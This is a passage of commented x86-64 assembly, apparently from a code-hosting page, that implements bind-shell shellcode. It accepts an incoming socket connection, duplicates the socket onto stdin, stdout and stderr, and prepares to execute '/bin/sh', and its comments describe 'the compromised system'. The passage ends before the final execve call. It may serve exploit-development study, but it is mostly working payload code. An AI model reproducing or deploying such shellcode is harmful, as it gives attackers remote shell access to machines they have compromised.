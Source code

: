 ```nasm	
    push   0x1
    pop    rsi
    push   0x32
    pop    rax
    syscall 
 
    ; Accept
    ; Function prototype:
    ;       int accept(int sockfd, struct sockaddr *addr,
    ;               socklen_t *addrlen)
    ; Purpose:
    ;       accepts a connection on a socket and returns a new
    ;       file descriptor referring to the socket which is used
    ;       to bind stdin, stdout and stderr to the local terminal
    mov    rsi,rsp
    xor    rcx,rcx
    mov    cl,0x10
    push   rcx
    mov    rdx,rsp
    push   r8
    pop    rdi
    push   0x2b
    pop    rax
    syscall 
 
    ; Dup2
    ; Function prototype:
    ;       int dup2(int oldfd, int newfd)
    ; Purpose:
    ;       duplicate a file descriptor, copies the old file
    ;       descriptor to a new one allowing them to be used
    ;       interchangably, this allows all shell ops to/from the
    ;       compomised system.
    pop    rcx
    xor    r9,r9
    mov    r9,rax
    mov    rdi,r9
    xor    rsi,rsi
    push   0x3
    pop    rsi
doop:
    dec    rsi
    push   0x21
    pop    rax
    syscall 
    jne    doop
 
    ; Execve
    ; Function prototype:
    ;       int execve(const char *filename, char *const argv[],
    ;               char *const envp[]);
    ; Purpose:
    ;       execve() executes the program pointed to by filename.  
    ;       filename must be either a binary executable, or a script.   
    xor    rdi,rdi
    push   rdi
    push   rdi
    pop    rsi
    pop    rdx
    mov rdi,0x68732f6e69622f2f
    shr    rdi,0x8
    push   rdi
    push   rsp
```